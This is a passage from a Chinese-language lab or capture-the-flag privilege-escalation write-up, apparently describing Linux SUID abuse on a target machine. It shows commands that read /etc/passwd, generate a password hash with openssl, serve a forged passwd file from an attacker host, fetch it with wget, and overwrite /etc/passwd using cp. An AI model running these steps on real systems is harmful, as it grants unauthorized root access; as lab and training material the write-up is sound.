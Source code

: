![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACXcTGpicyJFTmDdrFISffhmNL58ZuEwLyx6pl8j6tccp6sLO7znP5gxRGNTzibTdicffWCQpBxfheWQ/640?wx_fmt=png)

退出当前 shell，切换 magisec 用户，密码 123456。

```
su magisec
```

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACXcTGpicyJFTmDdrFISffhmicxEaUjfZnetibM4qgJtku9qF146P9eyDAbPr302KcvoaD8ia0l1vZgWg/640?wx_fmt=png)

修复建议：取消 suid 文件 suid 权限

### php 特权提升

![](https://mmbiz.qpic.cn/mmbiz_jpg/Jvbbfg0s6ACXcTGpicyJFTmDdrFISffhm3qcUgpjywtQFMTFo4q6UkU4oJB9YVmGRfB5OW1CxU84X1lYcsRSq9Q/640?wx_fmt=jpeg)

获取 flag

![](https://mmbiz.qpic.cn/mmbiz_jpg/Jvbbfg0s6ACXcTGpicyJFTmDdrFISffhm8RkI7Xduu9Sp2rPYJL3y5TRvU8de4iaiaCbbxTvM6KA489JJcfsvm6sw/640?wx_fmt=jpeg)

### cp 提权

将靶机的 passwd 文件，拷贝到 kali 上面。

```
cat /etc/passwd
```

openssl 生成密码

```
openssl passwd -1 -salt magisec 123456
```

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACXcTGpicyJFTmDdrFISffhmb8V8T7V4wb48OzWssgdwHdOLIgxz0iaJnXicpLvxRDviaGEQFFXRHFs8w/640?wx_fmt=png)

python 启动 http 服务器

```
python -m SimpleHTTPServer 80
```

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACXcTGpicyJFTmDdrFISffhmmia1wzFbWO4kx3Gpoovj1pq567UbArCvpicIWJ0Uiab8hub6TgfzXO9Jw/640?wx_fmt=png)

wget 下载 passwd 文件

```
wget http://192.168.56.105/passwd
```

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACXcTGpicyJFTmDdrFISffhmZPShnBF5cFSiaSF7yLiaEgxVm6dbmicBELxq2ZePu3B5TZa2k858E8RbQ/640?wx_fmt=png)

cp 命令覆盖 / etc/passwd

```
cp ./passwd /etc/passwd
```
